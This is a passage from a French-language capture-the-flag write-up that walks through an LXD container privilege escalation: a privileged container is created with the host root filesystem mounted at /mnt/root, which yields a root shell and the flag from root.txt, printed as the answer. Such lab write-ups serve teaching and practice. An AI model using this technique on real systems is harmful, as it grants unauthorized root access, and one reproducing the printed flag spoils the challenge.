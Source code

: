 On transfer l'image sur notre cible.    

```bash
john@exploitable:~$ ls
alpine-v3.14-x86_64-20210806_1016.tar.gz  user.txt
john@exploitable:~$ lxc image import ./alpine-v3.14-x86_64-20210806_1016.tar.gz --alias myimage
Image imported with fingerprint: 271abc9a560830da4c3d12cf8009526a09f0ce431820115ab014085915a54998
```

On donne un nom à notre conteneur.   

```bash
john@exploitable:~$ lxc image list 
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 271abc9a5608 | no     | alpine v3.14 (20210806_10:16) | x86_64 | 3.09MB | Aug 6, 2021 at 8:19am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
```

On voit que notre image est là.  


```bash
john@exploitable:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
```

Initialisation de l'image.   

```bash
john@exploitable:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
```

On monte la répertoire racine dans notre image dans le chemin \/mnt\/root     

```bash
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
john@exploitable:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```

On lance l'image et l'exécute un shell dans l'image et on devient root.    

```bash
~ # cat /mnt/root/root/root.txt 
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

Comme \/mnt\/root\/ est la racine de notre shell on trouve le flag dans \/mnt\/root\/root\/root.txt   
On regarde dans le fichier root.txt    

La réponse est : 2e337b8c9f3aff0c2b3e8d4e6a7c88fc    